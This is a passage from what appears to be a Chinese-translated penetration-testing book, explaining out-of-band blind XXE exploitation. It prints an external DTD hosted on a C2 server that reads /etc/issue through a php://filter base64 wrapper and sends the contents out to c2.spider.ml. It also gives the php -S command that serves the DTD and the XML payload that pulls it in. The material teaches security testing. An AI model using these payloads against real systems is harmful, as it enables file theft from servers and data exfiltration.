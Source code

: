 ### 注释

`xmllint`可在 Debian 系发行版（如 Kali）的`libxml2-utils`包中找到。

解决方法非常简单。我们将在 C2 服务器上将`%data`和`%conn`的实体声明存储在外部 DTD 文件中：

```
root@spider-c2-1:~/c2/xxe# cat **payload.dtd**
<!ENTITY % data SYSTEM "**php://filter/convert.base64-encode/resource=file:///etc/issue**">
<!ENTITY % conn "<!ENTITY exfil SYSTEM '**http://c2.spider.ml/exfil?%data;**'>">
```

我们还将设置一个简单的 Web 服务器，通过`php -S`命令向目标提供`payload.dtd`，如图所示：

```
root@spider-c2-1:~/c2/xxe# php -S 0.0.0.0:80
PHP 7.0.27-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/c2/xxe
Press Ctrl-C to quit.
```

修改后的载荷将如下所示：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
    <!ELEMENT xxe ANY >
    <!ENTITY % dtd SYSTEM "**http://c2.spider.ml/payload.dtd**">
    **%dtd;**
    **%conn;**
]>
<xxe>**&exfil;**</xxe>
```

这里唯一的实际区别是，我们将两个参数实体声明移到了外部 DTD 中，并在 XML `DOCTYPE`中引用它。

正如预期的那样，我们的 XML 数据没有生成任何错误，也没有返回任何数据。我们目前无法得知具体情况：

![Blind XXE](img/B09238_10_18.jpg)
